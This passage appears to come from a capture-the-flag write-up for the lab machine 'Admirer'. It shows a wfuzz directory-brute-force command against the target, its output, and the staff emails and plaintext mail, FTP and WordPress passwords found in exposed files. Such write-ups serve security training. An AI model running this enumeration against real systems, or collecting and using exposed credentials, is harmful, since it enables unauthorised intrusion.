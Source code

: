 ```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --hh 277 --hc 404 "http://10.10.10.187/admin-dir/FUZZ.txt"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.187/admin-dir/FUZZ.txt
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000227:   200        29 L     39 W       350 Ch      "contacts"   
000166817:   200        11 L     13 W       136 Ch      "credentials"
```

#### Manual enumeration
In the index page we are not able to find any useful information. But in the pages `/admin-dir/contacts.txt` and `/admin-dir/credentials.txt` we can find the following information:
- `/admin-dir/contacts.txt`:
```txt
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```
- `/admin-dir/credentials.txt`:
```txt
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```